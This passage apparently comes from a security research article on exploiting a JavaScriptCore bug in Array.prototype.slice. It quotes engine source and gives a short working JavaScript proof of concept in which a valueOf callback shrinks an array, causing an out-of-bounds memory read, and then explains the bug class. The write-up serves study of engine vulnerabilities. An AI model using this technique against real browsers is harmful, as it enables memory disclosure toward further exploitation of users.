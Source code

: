 
----[ 2.3 - Exploiting with "valueOf"

In the case of `arrayProtoFuncSlice` the conversion to a primitive type is
performed in argumentClampedIndexFromStartOrEnd. This method also clamps
the arguments to the range [0, length):

    JSValue value = exec->argument(argument);
    if (value.isUndefined())
        return undefinedValue;

    double indexDouble = value.toInteger(exec);  // Conversion happens here
    if (indexDouble < 0) {
        indexDouble += length;
        return indexDouble < 0 ? 0 : static_cast<unsigned>(indexDouble);
    }
    return indexDouble > length ? length :
                                  static_cast<unsigned>(indexDouble);

Now, if we modify the length of the array inside a valueOf function of one
of the arguments, then the implementation of slice will continue to use the
previous length, resulting in an out-of-bounds access during the memcpy.

Before doing this however, we have to make sure that the element storage is
actually resized if we shrink the array. For that let's have a quick look
at the implementation of the .length setter. From JSArray::setLength:

    unsigned lengthToClear = butterfly->publicLength() - newLength;
    unsigned costToAllocateNewButterfly = 64; // a heuristic.
    if (lengthToClear > newLength &&
        lengthToClear > costToAllocateNewButterfly) {
        reallocateAndShrinkButterfly(exec->vm(), newLength);
        return true;
    }

This code implements a simple heuristic to avoid relocating the array too
often. To force a relocation of our array we will thus need the new size to
be much less then the old size. Resizing from e.g. 100 elements to 0 will
do the trick.

With that, here's how we can exploit Array.prototype.slice:

    var a = [];
    for (var i = 0; i < 100; i++)
        a.push(i + 0.123);

    var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
    // b = [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]

The correct output would have been an array of size 10 filled with
'undefined' values since the array has been cleared prior to the slice
operation. However, we can see some float values in the array. Seems like
we've read some stuff past the end of the array elements :)


----[ 2.4 - Reflecting on the bug

This particular programming mistake is not new and has been exploited for a
while now [13, 14, 15]. The core problem here is (mutable) state that is
"cached" in a stack frame (in this case the length of the array object) in
combination with various callback mechanisms that can execute user supplied
code further down in the call stack (in this case the "valueOf" method).
With this setting it is quite easy to make false assumptions about the
state of the engine throughout a function. The same kind of problem
appears in the DOM as well due to the various event callbacks.
